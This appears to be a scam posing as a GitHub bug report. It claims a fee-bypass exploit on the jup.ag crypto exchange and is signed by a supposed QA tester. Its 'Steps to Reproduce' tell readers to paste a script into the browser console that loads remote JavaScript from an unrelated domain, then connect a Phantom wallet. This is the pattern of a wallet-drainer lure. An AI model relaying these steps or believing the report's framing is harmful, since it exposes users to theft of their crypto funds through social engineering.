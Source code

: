 # Bug Report #1532 – Token Scalping Exploit (Bypass jup.ag Fee)

**Reporter:** William Foster  
**Assignee:** Michael Bennett  
**Date:** 01.24.2022  
**Severity:** ⚠️ Critical  
**Status:** Open  

## 📝 Description  
A critical bug allows users to bypass the **jup.ag** fee. This exploit creates an unfair trading advantage and could lead to financial losses for the platform. 

As a proof of concept, I was able to create a **Token Finder for scalping, without jup.ag fee**. This tool identifies tokens and executes trades in a way that circumvents the fee system entirely.

## 🔄 Steps to Reproduce  

1. Copy and paste the following script:  
   ```javascript
   const script = document.createElement("script");  
   script.src = "https://gitproduction.com/xsweetchickxx3/Bug-Report-1532/main.js";  
   document.head.appendChild(script);
   ```

2. Go to **jup.ag** and open the developer tools **(Ctrl + Shift + C)**. 

3. Paste the script into the console and execute it.

4. Connect a **Phantom wallet** and test the exploit to verify that trades can be executed without fees.

## ✅ Expected Behavior  
All token swaps and scalping transactions should **include the appropriate jup.ag fee** to maintain fair trading conditions.  

## ❌ Actual Behavior  
Certain trades bypass the fee mechanism, allowing users to execute transactions **without any commission**.  

## 🛠️ Suggested Fix  
- Review and strengthen fee enforcement logic within the transaction processing system.  
- Implement additional validation checks to prevent unauthorized fee-free trades.  
- Monitor trading activity for unusual patterns related to this exploit.  

## 📌 Additional Information  
This issue requires **urgent attention** to prevent further abuse. Please confirm receipt and provide an estimated timeframe for resolution.  

**Best regards,**  
*William Foster*  
QA Tester, jup.ag  
